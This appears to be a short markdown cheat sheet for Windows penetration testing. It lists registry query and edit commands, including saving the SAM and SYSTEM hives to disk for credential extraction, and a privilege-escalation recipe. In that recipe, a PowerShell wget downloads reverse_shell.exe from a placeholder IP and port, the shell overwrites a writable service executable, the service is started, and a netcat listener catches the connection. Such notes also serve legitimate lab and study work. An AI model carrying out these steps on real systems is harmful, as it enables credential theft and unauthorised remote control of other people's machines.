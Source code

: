 ## Windows Registry

```
Computer\HKEY_CLASSES_ROOT\

Computer\HKEY_CURRENT_USER\

Computer\HKEY_LOCAL_MACHINE\

Computer\HKEY_USERS\

# Query
reg query HKCU\environment /v TEMP
reg query HKCU\environment /v *

# Add Key
reg add "hkcu\control panel\<key>"

# Delete Key
reg delete "hkcu\control panel\<key>" /f

# Add Value
reg add "hkcu\control panel\<key>" /v subs /t reg_sz /d twothousand /f

# Search
reg query HKCU /f <key> /s /e

# Save
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

## Insecure Service Executables

```
accesschk.exe /accepteula -uwsv user "C:\program Files"

wmic service list brief | findstr /i fileperm

sc query | findstr /i fileperm

powershell wget <IP>:<Port>/reverse_shell.exe -outfile .\reverse_shell.exe

# Copy the reverse shell to the C:\program Files path and overwrite the existing service executable with the reverse shell

# Start the Service
net start filepermsvc

# Start Listener
nc -nlvp 1234
```
